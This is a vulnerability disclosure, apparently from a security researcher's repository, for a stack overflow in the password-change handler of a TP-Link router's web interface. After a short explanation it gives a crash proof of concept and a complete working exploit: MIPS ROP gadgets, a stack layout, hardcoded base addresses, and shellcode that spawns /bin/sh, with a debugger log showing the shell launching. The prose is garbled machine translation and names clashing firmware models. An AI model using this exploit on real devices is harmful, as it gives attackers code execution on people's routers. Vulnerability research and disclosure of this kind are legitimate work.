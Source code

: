 ## ***\*Affected version\****
fix firmware download link:https://static.tp-link.com/upload/beta/2022/202206/20220620/Archer_C50v5_US_0.9.1_0.3_up_boot%5b220617-rel53867%5d.zip
![img](https://github.com/cilan2/iot/blob/main/img/wps3732.tmp.jpg) 

##  

## ***\*2. Vulnerability details\****

The main reason for the stack overflow vulnerability is in libcmm So library function DM_ In fillobjbystr(), this function will process the value of key = value returned from the front end. The following describes the propagation path of the vulnerability, taking httpd password modification as an example. Httpd program does not check the length when receiving oldpwd, PWD and name. After using sprintf to splice these variables, the first propagation function is RDP_ setObj()

 

![img](https://github.com/cilan2/iot/blob/main/img/wps3733.tmp.jpg) 

Figure 2 vulnerability propagation location 1

This function is called RDP_ Setobj () calls DM_ Fillobjbystr() function for the next step.

![img](https://github.com/cilan2/iot/blob/main/img/wps3734.tmp.jpg) 

 

Figure 3 vulnerability propagation location 2

Then in DM_ Fillobjbystr() directly calls strncpy to copy the input content into the local variable V26. As shown in Figure 7, the variable size is 1304 and can overflow; At the same time, as shown in Figure 6, the copy length of strncpy is the character length between '=' and '\ n', which is not limited or checked. Therefore, the copy length is controllable, and there is a stack overflow vulnerability in this position. The second red box here is the test crash location.

![img](https://github.com/cilan2/iot/blob/main/img/wps3735.tmp.jpg) 

Figure 4 overflow position and crash position

![img](https://github.com/cilan2/iot/blob/main/img/wps3736.tmp.jpg) 

Figure 5 controllable copy length

![img](https://github.com/cilan2/iot/blob/main/img/wps3737.tmp.jpg) 

 

Figure 6 local variable overflow size

## 

## ***\*3. Recurring vulnerabilities and POC\****

In order to reproduce the vulnerability, the following steps can be followed:

\1. Use fat simulation firmware tl-wr902acv3_ US_ 0.9.1_ 0.2. bin

\2. Attack with the following POC attacks

import requests

 

headers = {

​	"Host": "192.168.0.1",

​	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",

​	"Accept": "*/*",

​	"Accept-Language": "en-US,en;q=0.5",

​	"Accept-Encoding": "gzip, deflate",

​	"Content-Type": "text/plain",

​	"Content-Length": "78",

​	"Origin": "http://192.168.0.1",

​	"Connection": "close",

​	"Referer": "http://192.168.0.1/"

}

 

payload = "a" * 2048

formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname={}\r\noldPwd=admin\r\npwd=lys123\r\n".format(payload)

 

url = "http://192.168.0.1/cgi?8"

 

response = requests.post(url, data=formdata, headers=headers)

print response.text

 

The reproduction results are as follows:

![img](https://github.com/cilan2/iot/blob/main/img/wps3747.tmp.jpg) 

How to Exploit (exp)
In libuclibc-0.9.33.so, find the widget that can jump to the sleep function, and this widget can assign a value to the RA register, which is convenient to control the instruction that the return address points to.

# gadget 1
.text:000369E4                 move    $t9, $s0
.text:000369E8                 lw      $ra, 0x24($sp)
.text:000369EC                 lw      $s0, 0x20($sp)
.text:000369F0                 addiu   $a0, 0xC
.text:000369F4                 jr      $t9
.text:000369F8                 addiu   $sp, 0x28
Look for instructions that can store the stack address in the register. The stack address is the shellcode address.

# gadget 2
.text:00058894                 addiu   $a1, $sp, 0x34
.text:00058898                 move    $t9, $s0
.text:0005889C                 jalr    $t9
Jump to stack to execute code.

# gadget 3
.text:0003FD8C                 move    $t9, $a1
.text:0003FD90                 move    $a1, $a2
.text:0003FD94                 jr      $t9
Stack layout

┌─────────────┐◄───── sp
│             │
│             │
├─────────────┤◄───── sp + 0x68				# 
│     v26     │
├─────────────┤
│             │
│             │
│             │
│             │
│             │
│             │
├─────────────┤◄───── sp + 0x580			# 0x5880a764
│     v27     │
├─────────────┤◄───── sp + 0x584
│     v28     │
├─────────────┤◄───── sp + 0x588			# sleep
│     s0      │
├─────────────┤
│             │
│             │
├─────────────┤◄───── sp + 0x5ac			# gadget 1
│     ra      │
├─────────────┤◄───── sp1 = sp + 0x5b0
│             │
│             │
├─────────────┤◄───── sp1 + 0x20			# gadget 3
│     s0      │
├─────────────┤◄───── sp1 + 0x24			# gadget 2
│     ra      │
├─────────────┤◄───── sp2 = sp1 + 0x28
│             │
│             │
├─────────────┤◄───── sp2 + 0x34			# shellcode
│  shellcode  │
└─────────────┘
payload

payload = b'a' * (0x580 - 0x68)
payload += p32(file_base + 0xa780)			# v27
payload += b'b' * 4				
payload += p32(libuclibc_base + 0x56D20)	# s0
payload += b'c' * (0x5ac - 0x588 - 0x4)
payload += p32(libuclibc_base + gadget_1)	# ra = gadget

payload += b'd' * 0x20
payload += p32(libuclibc_base + gadget_3)
payload += p32(libuclibc_base + gadget_2)
payload += b'e' * 0x34
result

gef➤  c
Continuing.
process 444 is executing new program: /bin/busybox
Reading /bin/busybox from remote target...
Reading /bin/busybox from remote target...
Reading /lib/ld-uClibc.so.0 from remote target...
Reading /lib/ld-uClibc.so.0 from remote target...
exp

# Only after resetting the router or using the router for the first time, can the script work effectively!
import requests
from pwn import *

headers = {
    "Host": "192.168.0.1",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "text/plain",
    "Content-Length": "78",
    "Origin": "http://192.168.0.1",
    "Connection": "close",
    "Referer": "http://192.168.0.1/"
}


libcmm_base = 0x2b985000
file_base = 0x58800000
libuclibc_base = 0x2bcdf000

gadget_1 = 0x000369E4
gadget_2 = 0x00058894
gadget_3 = 0x0003FD8C

shellcode = "\x66\x06\x06\x24" + "\xff\xff\xd0\x04" + "\xff\xff\x06\x28" + "\xe0\xff\xbd\x27"+ "\x01\x10\xe4\x27" + "\x1f\xf0\x84\x24" + "\xe8\xff\xa4\xaf"+ "\xec\xff\xa0\xaf" + "\xe8\xff\xa5\x27"+ "\xab\x0f\x02\x24" + "\x0c\x01\x01\x01"+ "/bin/sh"

payload = b'a' * (0x580 - 0x68)
payload += p32(file_base + 0xa780)			# v27
payload += b'b' * 4				
payload += p32(libuclibc_base + 0x56D20)	# s0
payload += b'c' * (0x5ac - 0x588 - 0x4)
payload += p32(libuclibc_base + gadget_1)	# ra = gadget

payload += b'd' * 0x20
payload += p32(libuclibc_base + gadget_3)
payload += p32(libuclibc_base + gadget_2)
payload += b'e' * 0x34

payload += shellcode


str_payload = ""

for p in payload:
	str_payload += chr(p)

formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname=admin\r\noldPwd=admin\r\npwd={}\r\n".format(str_payload)

url = "http://192.168.0.1/cgi?8"
response = requests.post(url, data=formdata, headers=headers)
print(formdata)
print(response.text)
